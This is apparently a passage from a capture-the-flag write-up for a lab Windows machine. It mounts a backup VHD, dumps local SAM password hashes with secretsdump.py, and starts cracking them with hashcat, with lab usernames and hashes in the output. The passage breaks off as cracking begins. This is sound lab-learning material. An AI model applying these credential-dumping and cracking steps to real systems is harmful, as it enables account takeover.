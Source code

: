 ```
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml     An     3988  Fri Feb 22 04:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 04:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 04:45:32 2019

                5638911 blocks of size 4096. 1176790 blocks available
```
- After mounting the two `vhd` files and searching around, we find one with a whole Windows file system
```
sudo modprobe nbd max_part=8
sudo qemu-nbd -c /dev/nbd0 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
sudo mount /dev/nbd0p1 /mnt
```
- Surely we can find something here
- We find `SAM` files and `SYSTEM` in `Windows/System32/config` folder. Both should contain credentials to users!
	- Manually searching is unsuccessful
	- Use `secretsdump.py` to extract hashes. Already in directory with `SAM` and `SYSTEM` files:
```
┌──(root㉿kali)-[/mnt/Windows/System32/config]
└─# secretsdump.py LOCAL -sam SAM -system SYSTEM
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
- Now we try to crack these SAM hashes.


# Foothold
- gain shell
- Saved the `SAM` hashes to a `.txt` and cracked `SAM` hash for `L4mpje` using `hashcat` #SAM #hashcat 
```
┌──(root㉿kali)-[/mnt/Windows/System32/config]
└─# hashcat -m 1000 -a 0 /root/Downloads/sam.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 7800X3D 8-Core Processor, 14991/30047 MB (4096 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
```